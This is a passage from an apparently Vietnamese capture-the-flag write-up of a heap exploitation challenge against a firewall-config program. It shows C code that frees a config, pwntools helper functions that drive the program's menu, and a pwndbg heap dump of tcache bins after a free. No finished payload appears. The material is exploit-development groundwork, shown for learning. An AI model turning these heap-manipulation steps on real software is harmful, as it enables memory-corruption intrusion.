 ```c 
          free(ptr[count - 1]->setting);
          free(ptr[count - 1]);
          puts("Last config removed.");
          --count;
        }
```

Bây giờ mình thử tạo 2 FireWall rồi free cái cuối cùng để xem trên heap sẽ có gì

```python 
def add(id_: int,size: int,setting: bytes, active: bool = True):
	p.sendlineafter(b"> ",b"1")
	p.sendlineafter(b"What is the id of the config?: ",f"{id_}".encode())
	p.sendlineafter(b"What is the size of the setting?: ",f"{size}".encode())
	p.sendlineafter(b"What is the setting to be added?: ",setting)
	p.recvuntil(b"Should this setting be active? [y/n]: ")
	p.sendline(b"y") if active else p.sendline(b"n")
def edit(idx: int,id_: int,size: int,setting: bytes, active: bool = True):
	p.sendlineafter(b"> ",b"2")
	p.sendlineafter(b"What is the index of the config to edit?:",f"{idx}".encode())
	p.sendlineafter(b"What is the new ID?: ",f"{id_}".encode())
	p.sendlineafter(b"What is the new size of the setting?: ",f"{size}".encode())
	if size:
		p.sendlineafter(b"What is the new setting?: ",setting)
	p.recvuntil(b"Should this be active? [y/n]: ")
	p.sendline(b"y") if active else p.sendline(b"n")
def view(idx: int):
	p.sendlineafter(b"> ",b"3")
	p.sendlineafter(b'What is the index of the config to print?: ',f"{idx}".encode())
add(0,0x250-8,b"A"*8)
add(1,0x250-8,b"B"*8)
p.sendline(b"4")
```

```c 
pwndbg> vis 

0x2082000	0x0000000000000000	0x0000000000000251	........Q.......
0x2082010	0x0000000000000001	0x0000000000000000	................
0x2082020	0x0000000000000000	0x0000000000000000	................
.........
0x2082220	0x0000000000000000	0x0000000000000000	................
0x2082230	0x0000000000000000	0x0000000000000000	................
0x2082240	0x0000000000000000	0x0000000000000000	................
0x2082250	0x0000000000000000	0x0000000000000021	........!.......
0x2082260	0x0000000000000000	0x0000000002082280	........."......
0x2082270	0x0000000000000001	0x0000000000000251	........Q.......
0x2082280	0x4141414141414141	0x0000000000000000	AAAAAAAA........
0x2082290	0x0000000000000000	0x0000000000000000	................
.........
0x2082490	0x0000000000000000	0x0000000000000000	................
0x20824a0	0x0000000000000000	0x0000000000000000	................
0x20824b0	0x0000000000000000	0x0000000000000000	................
0x20824c0	0x0000000000000000	0x0000000000000021	........!.......
0x20824d0	0x0000000000000000	0x0000000002082010	......... ......	 <-- tcachebins[0x20][0/1]
0x20824e0	0x0000000000000001	0x0000000000000251	........Q.......
0x20824f0	0x0000000000000000	0x0000000002082010	......... ......	 <-- tcachebins[0x250][0/1]
0x2082500	0x0000000000000000	0x0000000000000000	................
.........
0x2082700	0x0000000000000000	0x0000000000000000	................
0x2082710	0x0000000000000000	0x0000000000000000	................
0x2082720	0x0000000000000000	0x0000000000000000	................
0x2082730	0x0000000000000000	0x00000000000208d1	................	 <-- Top chunk
```

